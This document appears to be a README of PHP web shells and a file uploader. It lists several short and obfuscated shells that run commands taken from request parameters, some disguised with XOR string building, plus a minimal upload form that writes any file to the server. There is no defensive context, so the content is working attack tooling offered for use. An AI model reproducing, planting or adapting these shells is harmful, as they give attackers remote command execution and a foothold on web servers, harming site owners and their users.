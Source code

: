 # simple-and-obfuscate-PHP-shell and uploader
several list of simple and obfuscate PHP shell and uploader

<h1>Shell</h1>

```
<?= `{$_REQUEST['_']}` ?>
```
```
<?=`$_GET[x]`?>
```
```
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```
```
<? @$_[]=@!+_; $__=@${_}>>$_;$_[]=$__;$_[]=@_;$_[((++$__)+($__++ ))].=$_;
$_[]=++$__; $_[]=$_[--$__][$__>>$__];$_[$__].=(($__+$__)+ $_[$__-$__]).($__+$__+$__)+$_[$__-$__];
$_[$__+$__] =($_[$__][$__>>$__]).($_[$__][$__]^$_[$__][($__<<$__)-$__] );
$_[$__+$__] .=($_[$__][($__<<$__)-($__/$__)])^($_[$__][$__] );
$_[$__+$__] .=($_[$__][$__+$__])^$_[$__][($__<<$__)-$__ ];
$_=$
$_[$__+ $__] ;$_[@-_]($_[@!+_] );
?>
```
<h1>Uploader</h1>

```
<?php echo 'Uploader<br>';echo '<br>';echo '<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">';echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>';if( $_POST['_upl'] == "Upload" ) {if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Upload !!!</b><br><br>'; }else { echo '<b>Upload !!!</b><br><br>'; }}?>
```
